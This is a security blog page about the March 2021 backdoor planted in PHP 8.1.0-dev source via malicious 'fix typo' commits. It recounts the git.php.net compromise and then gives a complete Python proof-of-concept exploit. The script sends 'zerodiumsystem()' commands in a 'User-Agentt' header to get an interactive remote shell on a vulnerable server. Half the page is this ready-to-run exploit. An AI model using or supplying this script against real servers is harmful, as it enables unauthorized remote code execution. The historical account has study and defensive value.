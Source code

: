 _[<-- Home](https://flast101.github.io)_

# PHP 8.1.0-dev Backdoor Remote Code Execution
_PHP 8.1.0-dev Backdoor System Shell Script_

![logo_php8.png](logo_php81.png "logo_php81.png")

PHP verion 8.1.0-dev was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.   

The original code was restored after the issue was discovered, but then tampered with a second time. The breach would have created a backdoor in any websites that ran the compromised version of PHP, enabling hackers to perform remote code execution on the site.

* * *

## Summary

1- The Story   
2- POC Script    
  

* * * 
## 1- The story

### 1.1- PHP source code targeted in backdoor attack ?

Two malicious commits were pushed to the PHP Git code repo on Sunday, March 28, and signed off under the names of PHP creator, Rasmus Lerdorf, and maintainer Nikita Popov. 

In the malicious commits, the attackers published a mysterious change upstream, "fix typo" under the pretense this was a minor typographical correction. 

![php-repo.png](php-repo.png "php-repo.png")

However, taking a look at the added line 370 where zend_eval_string function is called, the code actually plants a backdoor for obtaining easy Remote Code Execution (RCE) on a website running this hijacked version of PHP. This line executes PHP code from within the useragent HTTP header, if the string starts with 'zerodium'.  
Zerodium is a a Washington-based security firm that specializes in buying and selling zero-day vulnerabilities for a variety of operating systems and popular desktop and Web applications, including for PHP itself.

According to PHP maintainers, this malicious activity stemmed from the compromised git.php.net server, rather than compromise of an individual's Git account. Official announcement states the incident points towards a server compromise.
 
![php-git.png](php-git.png "php-git.png")


### 1.2- PHP Site's User Database Was Hacked

Further investigation into the incident has revealed that the commits were a result of pushing them using HTTPS and password-based authentication, leading them to suspect a possible leak of the master.php.net user database.

![php-logs.jpg](php-logs.jpg "php-logs.jpg")

Additionally, the master.php.net authentication system is said to be on a very old operating system and a version of PHP, raising the possibility that the attackers may have also exploited a vulnerability in the software to stage the attack.

As a consequence, the maintainers have migrated master.php.net to a new main.php.net system with support for TLS 1.2, in addition to resetting all existing passwords and storing passwords using bcrypt instead of a plain MD5 hash.

* * * 

## 2- POC Script

- **Exploit Title:** PHP 8.1.0-dev Backdoor Remote Code Execution    
- **Date:** 23 may 2021   
- **Exploit Author:** flast101   
- **Vendor Homepage:** [https://www.php.net/](https://www.php.net/)    
- **Software Link:**     
    [https://hub.docker.com/r/phpdaily/php]([https://hub.docker.com/r/phpdaily/php])        
    [https://github.com/phpdaily/php](https://github.com/phpdaily/php)    
- **Tested on version:** 8.1.0-dev    
- **CVE** : N/A    
- Previous vulnerability references:    
[https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a)    
[https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md](https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md)    



```python
#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't access tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

Be Curious, Learning is Life !

_[<-- Home](https://flast101.github.io)_




<!-- Global site tag (gtag.js) - Google Analytics -->
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-173692234-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'UA-173692234-1');
</script>

